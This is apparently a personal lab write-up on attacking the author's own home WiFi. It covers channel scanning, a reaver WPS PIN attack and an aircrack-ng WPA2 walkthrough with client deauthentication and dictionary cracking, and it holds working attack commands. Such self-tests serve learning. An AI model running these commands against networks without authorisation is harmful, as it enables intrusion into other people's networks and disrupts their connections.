

# Hacking wireless networks

## Channel usage

Used Network Analyzer (an open-source app for Android) to see how occupied the channels around my apartment were.

Because of the intense activity around channel 11, and the relative vacancy around channel 6, I would pick **channel 6** for a new network.

{ width=250px }

Note to self: Could have used `nmcli d wifi`.

## WPS

Since my network used WPS, I figured it'd be interesting to try cracking the WiFi password through this attack vector.

Using `reaver` and components of `aircrack-ng` like in
[this guide](https://linuxconfig.org/break-wps-and-find-your-wifi-password-with-reaver)
yielded some results.

Initial detection on wireless card `$WL`:

+ `airmon-ng start "$WL"` → virtual interface `$MON`
+ `airodump-ng "$WL"` → find `$BSSID` and channel

Then finally, after running

```sh
reaver -i "$MON" -d 10 -S -N -vv -b "$BSSID"
```

for several hours, the PIN should be cracked.

I did try exploiting WPS, but kept getting rate limited -- and in the setup for the router, WPS did not seem to be enabled.

In any case, I would disable monitor mode with `airmon-ng stop "$MON"`.

## WPA2

Bruteforcing the WiFi password? Well, that's gonna take a looong time.
However, if I add the actual password to the dictionary used for the attack...
This is just a demonstration, anyway.

I followed some guides on the `aircrack-ng` wiki:

+ [How to crack WPA/WPA2](https://www.aircrack-ng.org/doku.php?id=cracking_wpa)
+ [Injection test](https://www.aircrack-ng.org/doku.php?id=injection_test)

Compiled steps, with `$CHAN` set to the network's channel:

An optional test with e.g. `aireplay-ng -"$CHAN" "$WL"` to check if you can inject anything at all.

1. Set your interface in monitor mode with `airmon-ng start "$WL" "$CHAN"` like above.
2. Possibly capture handshakes with `airodump-ng -c "$CHAN" --bssid "$BSSID" -w psk "$MON"`
   + Look for a client's MAC address
3. Deauthenticate some client with ` aireplay-ng -0 1 -a "$BSSID" -c "$CLIENT_MAC" ath0` and get a handshake quickly
   + The MAC address was gathered in the previous step
   + Check if the client received your packet with `tcpdump`
   + This gives some `psk` files
4. Actually crack the WPA key with `aircrack-ng -w password.lst -b "$BSSID" psk*.cap` or `aircrack-ng -b "$BSSID" psk*.cap < passwords.txt`
   + The WPA key _has_ to be among the passords in your dictionary
   + The `password.lst` file is in the `test` dir of aircrack's source.
   + In my case, I **put the actual password inside the dictionary** since this is all for the sake of demonstration and I know the key already.

{ width=500px }

{ width=500px }
